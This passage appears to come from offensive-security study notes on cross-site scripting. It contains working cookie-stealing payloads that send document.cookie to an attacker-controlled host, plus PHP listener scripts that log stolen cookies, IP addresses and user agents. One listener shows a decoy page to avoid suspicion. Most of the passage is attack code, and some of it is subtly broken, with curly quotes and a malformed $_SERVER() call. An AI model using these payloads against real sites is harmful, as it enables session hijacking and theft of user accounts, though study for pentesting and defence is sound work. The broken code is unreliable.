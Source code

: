 Open the listener in the attacker site and send the crafted URL with the payload included. Once someone open it, they will be sending to the attacker their cookies jar.

#### Example 2

1. The attacker creates a get.php file and saves it into its server. 

2. This php file will store the data that the attacker server receives into a file.

3. This could be the content of the get.php file:

```php
<?php
	$ip = $_SERVER(‘REMOTE_ADDR’);
	$browser = $_SERVER(‘HTTP_USER_AGENT’);

	$fp = fopen(‘jar.txt’, ‘a’);

fwrite($fp, $ip . ‘ ‘ . $browser . “ \n”);
fwrite($fp, urldecode($_SERVER[‘QUERY_STRING’]) . “ \n\n”);
fclose($fp);
?>
```

4. Now in the web server the attacker achieve to store this payload:

```html
<script>
var i = new Image();
i.src = “http://attacker.site/get.php?cookie=”+escape(document.cookie);
</script>

# Or in one line:
<script>var i = new Image(); i.src = “http://10.86.74.7/moville.php?cookie=”+escape(document.cookie); </script>
```

#### Techniques for cookie stealing

Let's suppose we have our PHP script C.php listening on our hacker.site domain. 

Example of C.php Simple Listerner:

```php
# Instruct the script to simply store the GET['cc'] content in a file
<?php
error_reporting(0); # Turn off all error reporting
$cookie= $_GET['cc']; # Request to log
$file= '_cc_.txt'; # The log file
$handle= fopen($file,"a"); # Open log file in append mode
fwrite($handle,$cookie."\n"); # Append the cookie
fclose($handle); # Append the cookie

echo '<h1>Page under construction</h1>'; # Trying to hide suspects.
```

Example of C.php Listerner recording hosts, time of logging, IP addresses:
